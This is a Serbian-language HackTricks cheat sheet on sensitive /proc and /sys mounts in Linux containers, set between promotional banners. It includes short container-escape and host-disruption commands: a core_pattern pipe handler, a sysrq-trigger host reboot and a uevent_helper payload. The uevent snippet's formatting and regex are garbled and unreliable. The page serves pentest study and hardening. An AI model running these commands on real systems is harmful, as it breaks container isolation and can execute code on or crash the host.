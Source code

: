 # Osetljivi mount-ovi

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Izlaganje `/proc` i `/sys` bez odgovarajuće izolacije imenskog prostora uvodi značajne sigurnosne rizike, uključujući proširenje površine napada i otkrivanje informacija. Ovi direktorijumi sadrže osetljive datoteke koje, ako su pogrešno konfigurisane ili pristupljene od strane neovlašćenog korisnika, mogu dovesti do bekstva iz kontejnera, modifikacije domaćina ili pružanja informacija koje pomažu daljim napadima. Na primer, nepravilno montiranje `-v /proc:/host/proc` može zaobići AppArmor zaštitu zbog njegove putem zasnovane prirode, ostavljajući `/host/proc` nezaštićenim.

**Možete pronaći dalje detalje o svakom potencijalnom propustu u** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Vulnerabilnosti

### `/proc/sys`

Ovaj direktorijum dozvoljava pristup za modifikaciju kernel promenljivih, obično putem `sysctl(2)`, i sadrži nekoliko poddirektorijuma od interesa:

#### **`/proc/sys/kernel/core_pattern`**

* Opisan u [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Omogućava definisanje programa za izvršavanje prilikom generisanja core fajla sa prvih 128 bajtova kao argumentima. Ovo može dovesti do izvršavanja koda ako fajl počinje sa cev `|`.
*   **Primer testiranja i eksploatacije**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Testiraj pristup pisanju
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Postavi prilagođeni rukovalac
sleep 5 && ./crash & # Pokreni rukovaoca
```

#### **`/proc/sys/kernel/modprobe`**

* Detaljno opisan u [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Sadrži putanju do učitavača kernel modula, pozvanog za učitavanje kernel modula.
*   **Primer provere pristupa**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Proveri pristup modprobe-u
```

#### **`/proc/sys/vm/panic_on_oom`**

* Pomenut u [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Globalna oznaka koja kontroliše da li kernel pravi paniku ili poziva OOM ubijalicu kada se desi OOM uslov.

#### **`/proc/sys/fs`**

* Prema [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), sadrži opcije i informacije o fajl sistemu.
* Pristup pisanju može omogućiti različite napade uskraćivanjem usluga na domaćinu.

#### **`/proc/sys/fs/binfmt_misc`**

* Omogućava registrovanje interpretatora za ne-nativne binarne formate na osnovu njihovog magičnog broja.
* Može dovesti do eskalacije privilegija ili pristupa root shell-u ako je `/proc/sys/fs/binfmt_misc/register` za pisanje.
* Relevantan eksploatacioni alat i objašnjenje:
* [Rootkit preko binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* Detaljan tutorijal: [Video link](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Ostali u `/proc`

#### **`/proc/config.gz`**

* Može otkriti konfiguraciju kernela ako je `CONFIG_IKCONFIG_PROC` omogućen.
* Korisno za napadače da identifikuju ranjivosti u pokrenutom kernelu.

#### **`/proc/sysrq-trigger`**

* Omogućava pozivanje Sysrq komandi, potencijalno uzrokujući trenutne ponovne pokrete sistema ili druge kritične akcije.
*   **Primer ponovnog pokretanja domaćina**:

```bash
echo b > /proc/sysrq-trigger # Ponovo pokreće domaćina
```

#### **`/proc/kmsg`**

* Izlaže poruke kernel prstena.
* Može pomoći u eksploataciji kernela, otkrivanju adresa i pružanju osetljivih informacija o sistemu.

#### **`/proc/kallsyms`**

* Navodi simbole kernela i njihove adrese.
* Bitno za razvoj eksploatacije kernela, posebno za prevazilaženje KASLR-a.
* Informacije o adresi su ograničene sa `kptr_restrict` postavljenim na `1` ili `2`.
* Detalji u [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Interfejs sa uređajem kernel memorije `/dev/mem`.
* Istoriski ranjiv na napade eskalacije privilegija.
* Više o [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Predstavlja fizičku memoriju sistema u ELF core formatu.
* Čitanje može otkriti sadržaj memorije domaćina i drugih kontejnera.
* Veličina fajla može dovesti do problema sa čitanjem ili rušenjem softvera.
* Detaljna upotreba u [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Alternativni interfejs za `/dev/kmem`, predstavlja virtuelnu memoriju kernela.
* Omogućava čitanje i pisanje, stoga direktnu modifikaciju kernel memorije.

#### **`/proc/mem`**

* Alternativni interfejs za `/dev/mem`, predstavlja fizičku memoriju.
* Omogućava čitanje i pisanje, modifikacija sve memorije zahteva rešavanje virtuelnih u fizičke adrese.

#### **`/proc/sched_debug`**

* Vraća informacije o rasporedu procesa, zaobilazeći zaštitu PID imenskog prostora.
* Izlaže imena procesa, ID-ove i identifikatore cgroup-a.

#### **`/proc/[pid]/mountinfo`**

* Pruža informacije o tačkama montiranja u imenskom prostoru montiranja procesa.
* Izlaže lokaciju `rootfs` kontejnera ili slike.

### Vulnerabilnosti `/sys`

#### **`/sys/kernel/uevent_helper`**

* Koristi se za rukovanje kernel uređajima `uevents`.
* Pisanje u `/sys/kernel/uevent_helper` može izvršiti proizvolne skripte prilikom okidača `uevent`.
*   **Primer eksploatacije**: %%%bash

#### Kreira payload

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### Pronalazi putanju domaćina iz OverlayFS montiranja za kontejner

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

#### Postavlja uevent\_helper na zlonamerni pomoćnik

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

#### Okida uevent

echo change > /sys/class/mem/null/uevent

#### Čita izlaz

cat /output %%%
#### **`/sys/class/thermal`**

* Kontroliše postavke temperature, potencijalno izazivajući DoS napade ili fizičku štetu.

#### **`/sys/kernel/vmcoreinfo`**

* Otkriva adrese jezgra, potencijalno kompromitujući KASLR.

#### **`/sys/kernel/security`**

* Sadrži `securityfs` interfejs, omogućavajući konfigurisanje Linux Security Modula poput AppArmor-a.
* Pristup može omogućiti kontejneru da onemogući svoj MAC sistem.

#### **`/sys/firmware/efi/vars` i `/sys/firmware/efi/efivars`**

* Otkriva interfejse za interakciju sa EFI varijablama u NVRAM-u.
* Pogrešna konfiguracija ili eksploatacija može dovesti do oštećenja laptopova ili neupotrebljivih host mašina.

#### **`/sys/kernel/debug`**

* `debugfs` nudi "bez pravila" interfejs za debagovanje jezgra.
* Istorija sigurnosnih problema zbog njegove neograničene prirode.

### Reference

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili **telegram grupi** ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
